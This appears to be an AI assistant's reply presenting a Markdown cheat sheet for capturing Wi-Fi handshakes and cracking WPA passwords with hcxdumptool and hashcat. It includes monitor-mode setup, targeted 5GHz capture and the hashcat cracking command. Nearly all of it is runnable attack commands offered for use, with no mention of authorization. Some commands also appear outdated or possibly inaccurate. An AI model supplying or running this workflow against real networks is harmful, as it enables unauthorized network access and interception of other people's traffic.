 You're right, my mistake. Here is the Markdown with the titles unboxed and the commands in code blocks:

# Wi-Fi Handshake Capture & Crack Cheatsheet 📡

## Table of Contents 📋

- [Preliminary Commands & Information Retrieval](#preliminary)
- [Capture & Conversion Phase](#capture)
- [Additional Scans & Information](#additional) 
- [Cracking Phase](#cracking)
- [5GHz Network Capturing Cheat Sheet](#5ghz)

## Preliminary Commands & Information Retrieval

**Secure Copy from Remote Device**

```
scp -r root@172.16.42.1:/root/example.pcapng /home/username/Desktop
```

📖 Downloads files from remote devices using SCP.

**Check Wireless Interfaces** 

```
iwconfig
```

📖 Displays wireless network interface details.

**Kill Interfering Services**

```  
airmon-ng check kill
```

📖 Stops services that might interfere with wireless tools.

## Capture & Conversion Phase

**Set Wireless Card to Monitor Mode**

```
sudo ip link set wlan0 down  
sudo iw wlan0 set monitor control
sudo ip link set wlan0 up
```

📖 Prepares the wireless card for capture.

**Capture Handshakes with hcxdumptool** 

```
hcxdumptool -i wlan1 -o dumpfile.pcapng --active_beacon --enable_status=15
```

📖 Captures packets from networks.

**Convert Captured File for Hashcat**

```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
``` 

📖 Converts packets for password cracking.

## Additional Scans & Information

**Scan for Nearby Networks**

```
hcxdumptool --do_rcascan -i wlan1 
```

📖 Scans and displays nearby networks.

## Cracking Phase 

**Crack with Hashcat**

```
hashcat -m 22000 hash.hc22000 wordlist.txt
```

📖 Uses hashcat to attempt password cracks.

## 5GHz Network Capturing Cheat Sheet

1. **Install Necessary Tools**

   ```
   sudo apt-get install hcxdumptool hcxtools
   ```

2. **Check for 5GHz Support**

   ```
   iw list
   ```

3. **Enable Monitor Mode**

   ```
   sudo ip link set wlan0 down
   sudo iw dev wlan0 set type monitor
   sudo ip link set wlan0 up
   ```

4. **Set to 5GHz Channel**

   ```
   sudo iw dev wlan0 set channel 36
   ```

5. **Identify Target Networks**

   ```
   sudo hcxdumptool -i wlan0 --scan
   ```

6. **Capture Traffic**

   ```
   sudo hcxdumptool -i wlan0 --enable_status=1 -o output.pcapng --filterlist=filterlist.txt --filtermode=2
   ```

7. **Analyze Captured Traffic**

   ```
   hcxpcaptool -z output.hccapx output.pcapng
   ```

8. **Troubleshooting**

   ```
   sudo iw reg get
   sudo iw reg set US
   ```

9. **Switch Back to 2.4GHz**

   ```
   sudo ip link set wlan0 down
   sudo iw dev wlan0 set type monitor
   sudo iw dev wlan0 set channel 6
   sudo ip link set wlan0 up
   ```

10. **List 2.4GHz Channels**

    ```
    iw phy phy0 channels
    iwlist wlan0 channel
    ```

Let me know if this looks better or if you need any other changes!
